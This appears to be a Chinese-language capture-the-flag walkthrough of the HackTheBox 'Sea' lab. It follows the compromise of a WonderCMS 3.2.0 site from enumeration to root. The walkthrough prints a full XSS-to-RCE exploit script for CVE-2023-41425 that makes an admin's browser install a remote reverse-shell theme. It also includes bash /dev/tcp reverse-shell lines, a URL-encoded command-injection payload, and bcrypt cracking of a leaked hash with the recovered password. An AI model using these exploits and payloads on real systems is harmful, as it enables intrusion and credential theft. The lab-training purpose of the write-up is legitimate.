






## Sea
### nmap后添加域名
```
$ nmap -sC -sV IP

$ echo '10.129.23.18 sea.htb' | usdo tee -a /etc/hosts
```

### 模糊枚举1
```
[★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u "http://sea.htb/FUZZ" -c -v

:: Progress: [133/87664] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Err[Status: 301, Size: 230, Words: 14, Lines: 8, Duration: 8ms]
| URL | http://sea.htb/themes
| --> | http://sea.htb/themes/
    * FUZZ: themes
```
### 模糊枚举2
```
[★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u "http://sea.htb/themes/FUZZ" -c -v

[Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 9ms]
| URL | http://sea.htb/themes/bike
| --> | http://sea.htb/themes/bike/
    * FUZZ: bike
```
### 模糊枚举3
```
[★]$ ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -u "http://sea.htb/themes/bike/FUZZ" -t 200 -fc 403

sym/root/home/          [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 9ms]
version                 [Status: 200, Size: 6, Words: 1, Lines: 2, Duration: 8ms]
README.md               [Status: 200, Size: 318, Words: 40, Lines: 16, Duration: 617ms]
```
### 信息 WonderCMS管理系统
```
[★]$ curl http://sea.htb/themes/bike/README.md
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview


## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find theme in the list and click "install".
4. In the "General" tab, select theme to activate it.
```
```
[★]$ curl http://sea.htb/themes/bike/version
3.2.0

```
### 搜索版本漏洞
https://nvd.nist.gov/vuln/detail/CVE-2023-41425
#### Wonder CMS v.3.2.0 至 v.3.4.2 中的跨站点脚本漏洞允许远程攻击者通过上传到 installModule 组件的精心设计的脚本执行任意代码。
### 工具1，下载 并且 不需要解压压缩包
```
[★]$ wget https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip
```
### 工具2
https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413
#### 将PoC更改为指向我们的web服务器，只修改https
#### var urlRev = urlWithoutLogBase+"/?installModule=http://10.10.14.149:8001/main.zip&directoryName=violet&type=themes&token=" + token;
```
# Exploit: WonderCMS XSS to RCE
import sys
import requests
import os
import bs4

if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
else:
  data = '''
var url = "'''+str(sys.argv[1])+'''";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = urlWithoutLogBase+"/?installModule=http://10.10.14.149:8001/main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "'''+str(sys.argv[2])+'''";
       var port = "'''+str(sys.argv[3])+'''";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();
       
     }
   };
 }
};
'''
  try:
    open("xss.js","w").write(data)
    print("[+] xss.js is created")
    print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
    print("----------------------------\n")
    XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
    XSSlink = XSSlink.strip(" ")
    print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
    print("----------------------------\n")

    print("\nstarting HTTP server to allow the access to xss.js")
    os.system("python3 -m http.server\n")
  except: print(data,"\n","//write this to a file")
```
### 漏洞的使用命令
```
[★]$ nc -lvvp 4444
```
```
[★]$ python3 exploit.py http://sea.htb/index.php?page=LoginURL 10.10.14.149 4444
[+] xss.js is created
[+] execute the below command in another terminal

----------------------------
nc -lvp 4444
----------------------------

send the below link to admin:

----------------------------
http://sea.htb/index.php?page=LoginURL"></form><script+src="http://10.10.14.149:8000/xss.js"></script><form+action="
----------------------------
```
#### 复制它生成的URL填写到浏览器的Website,Submit


#### 返回了200
#### [★]$ nc -lvvp 4444它是没反应的
### 在浏览器按FN 12，打开控制台

#### 尝试从完整 URL 中提取出“基础路径”或者“主机地址”，方便拼接其他路径
#### 是按照exploit.py里面的命令进行测试的
##### split("/").slice(0,-1).join("/") 这一步，把最后一个 / 后面的部分去掉
### 修改expolit.py
```
$ vi expolit.py

var urlWithoutLogBase = new URL(urlWithoutLog).pathname;
改为
var urlWithoutLogBase = "http://sea.htb";
```
### 再来一次发送生成的payload
```
[★]$ python3 exploit.py http://sea.htb/index.php?page=LoginURL 10.10.14.149 4444
```
#### 复制生成的内容到浏览器Website之后Submit
#### nc连接上了
```
[★]$ nc -lvvp 4444
listening on [any] 4444 ...
connect to [10.10.14.149] from sea.htb [10.129.32.18] 57752
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 17:00:12 up  2:00,  0 users,  load average: 1.49, 1.56, 1.36
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@sea:/$
```
### 在反弹shell里面枚举信息，发现有个-rwxr-xr-x 1
```
www-data@sea:/var/www/sea/data$ ls -la
ls -la
total 48
drwxr-xr-x 3 www-data www-data  4096 Feb 22  2024 .
drwxr-xr-x 6 www-data www-data  4096 Feb 22  2024 ..
-rwxr-xr-x 1 www-data www-data 29235 Sep 10 16:32 cache.json
-rwxr-xr-x 1 www-data www-data  2891 Sep 10 17:00 database.js
drwxr-xr-x 2 www-data www-data  4096 Sep 10 17:00 files
www-data@sea:/var/www/sea/data$ cat database.js
cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
<SNIP>
```
#### 要使用这个bcrypt （$2y$）哈希，我们必须首先删除反斜杠，将哈希写入文本文件，然后使用选项-m 3200将其输入Hashcat来破解比特币哈希。
```
[★]$ echo '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' > hash.txt
[★]$ cp /usr/share/wordlists/rockyou.txt.gz .
[★]$ gunzip rockyou.txt.gz
[★]$ hashcat -m 3200 -a 0  hash.txt rockyou.txt
<SNIP>
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
<SNIP>
```
#### 密码为mychemicalromance
#### 查看用户
```
www-data@sea:/var/www/sea/data$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
amay:x:1000:1000:amay:/home/amay:/bin/bash
geo:x:1001:1001::/home/geo:/bin/bash
www-data@sea:/var/www/sea/data$ su amay
su amay
Password: mychemicalromance

amay@sea:/var/www/sea/data$ 
```
### 登陆用户之后查看进程
```
amay@sea:~$ netstat -ntlp
netstat -ntlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:55965         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
amay@sea:~$
```
### ssh连接本地端口转发，之后上浏览器
```
[★]$ ssh amay@sea.htb -L 10.10.14.149:8081:127.0.0.1:8080
```
```
[★]$ burpsuite
```
#### burpsuite与浏览器之间的端口依旧是8080
#### 点击Analyze
### 尝试注入一个新的命令使用；/tmp/test.txt

#### 查看
```
amay@sea:~$ ls -la /tmp/test.txt
-rw-r--r-- 1 root root 0 Sep 10 17:27 /tmp/test.txt
```
### 使用的是root，可以注入反弹shell

```
bash -c 'bash -i >& /dev/tcp/10.10.16.19/4444 0>&1'
```
#### 按ctrl + U
```
log_file=%2Fvar%2Flog%2Fapache2%2F;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.149/4443+0>%261'&analyze_log=
```
#### 发起监听
```
[★]$ nc -lvnp 4445
```
#### Send

#### 笑死完全是拼手速，复制好cat /root/root.txt
```
[★]$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.149] from (UNKNOWN) [10.129.32.18] 59058
bash: cannot set terminal process group (13846): Inappropriate ioctl for device
bash: no job control in this shell
root@sea:~/monitoring# cat /root/root.txt
cat /root/root.txt
8bdfd45dec6370cf24f84e0510d08434
root@sea:~/monitoring# 

root@sea:~/monitoring# exit
```
